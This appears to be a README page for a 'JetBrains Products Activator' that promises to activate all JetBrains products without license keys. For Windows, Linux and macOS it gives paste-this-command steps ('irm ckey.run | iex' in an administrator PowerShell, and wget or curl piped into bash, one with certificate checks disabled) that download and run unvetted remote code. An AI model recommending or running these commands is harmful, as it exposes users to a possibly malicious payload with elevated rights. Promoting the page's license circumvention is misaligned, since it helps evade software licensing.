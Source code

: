 # JetBrains Products Activator

Effortless activation for all JetBrains products—no license keys, no manual setup, no stress. Just copy, paste, and you're done.

---

## 🔷 For Windows

1. Press `Win + X` and select **Windows PowerShell (Administrator)**.
2. Copy and paste the following command into the terminal (⚠️ **Do not type it manually**):

```powershell
   irm ckey.run | iex
````

3. The script will automatically scan for installed JetBrains products and activate them.
   No codes. No prompts. Just wait a moment, and you're done.

### 🔍 Debug / Transparency

* To see which files were processed:

  ```powershell
  irm ckey.run/debug | iex
  ```

* To view the script's source code:

  ```powershell
  irm ckey.run
  ```

---

## 🐧 For Linux

1. Open your terminal.
2. Run the following command:

   ```bash
   wget --no-check-certificate ckey.run -O ckey.run && bash ckey.run
   ```

### 🔍 Debug

```bash
wget --no-check-certificate ckey.run/debug -O ckey.run && bash ckey.run
```

---

## 🍎 For macOS

1. Open your terminal.
2. Run using `curl` (or `wget` if installed):

   ```bash
   curl -L -o ckey.run ckey.run && bash ckey.run
   ```

### 🔍 Debug

```bash
curl -L -o ckey.run ckey.run/debug && bash ckey.run
```

---

## ✨ Indulge in the Simplicity

No license keys.
No downloads.
No stress.

✅ Just copy, paste, and activate!

